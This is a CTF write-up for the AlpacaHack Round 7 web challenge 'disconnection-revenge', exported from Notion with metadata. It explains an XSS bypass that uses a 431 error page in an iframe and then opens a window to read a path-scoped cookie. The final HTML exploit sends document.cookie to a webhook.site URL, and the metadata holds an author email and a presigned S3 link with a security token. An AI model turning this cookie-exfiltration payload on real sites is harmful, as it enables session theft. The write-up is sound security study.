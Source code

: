 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466ZKONTLRB%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T112618Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDMaCXVzLXdlc3QtMiJHMEUCIFMP9TB0viBl%2FiiY7F9s16EsP8YHRnC9YoCcD4PMDnKjAiEA0w49JiabYrWFe8hXinPOWkTCXOTl2snGyaQ6NapTv%2FcqiAQI7P%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDCKAoOG%2B3pV0n1vKoircA396bXjlnh%2F2u%2Bs1%2FNeBDi%2B2Y5Fj5j%2BE2Pinj%2Bbsg5AccfYlLfJLfibJ%2F3dCutKgIdqkSAGNebJUOlhS6w%2FoRhZmgKQ62gR2uSBkx79RhPy5RQEGFCpYnK1eJ%2F%2BkysC4wBmGnjlXS3y1TMb2U0z4VC2fQhDvQcFehdjsDPMKBLyLSGIzTZmR31vlH0qeda53J3yphzil3lw0w8FH0eHIhwpEmXmmgpqYtgDatlHdG2dJqmUN07j%2BeVFNC8mjcHS8cacKDTEM8IIDEVHdAxoGyxR%2BRBLgmbzJ9%2BaEKJC%2BFnW3aothd5OW7BjQwxPJ%2BhswowVVgpEckgPMr5G7spRi67lD5tXs7FiL7vbA1kdPfystLBKsf3YazBfBJMKEeXbLiIAAaWhGCWYtxQPf2CzZZLVCch%2FFgsqOR7bD4VbPR25Gt50xU6Eb2C3AZyPbSed7iFdbJcKmYZV5CgbAgREXpRn9kIYwU4OLEYi12lpeF27WzRW1AwRx1L%2FGCVFdpparx6bQ7d1DUDrVRjePU%2FqXSNX6WHDhF0Yy3IdEj2SvwEd2kO3KIWLnwT4l1%2BBJVIIOnUGeY14i7lyV1zJLVAG33QMQe8yngQ7gdoHOm8geOxUsRxyx7BcWjbJu9enpMNGmwcEGOqUBZlk7XAg%2B6Zas1E5dG%2BK7sFIOvw9X4d2F09kbv9gulNxl5enVZSgp7oTxNhjnBZYeRtc1z4r4o1QDDTql6TMQwi5yVYJ1X3yCIskmacGFXGBaCMBvGwrCMsrjFbitknU0mYZjea1%2FWzHbNbeReDI1mqR1y%2FyJ33H0oHfVQfIR5gL2VeL3F%2F4HBvpI49A%2FN4ORh1QdJkAX1kTDQ5yvj07jAcBXSMaD\&X-Amz-Signature=c2341d50d4d557fc3e263152a030077823feecbcd7c2dee2523194fdea88b077\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
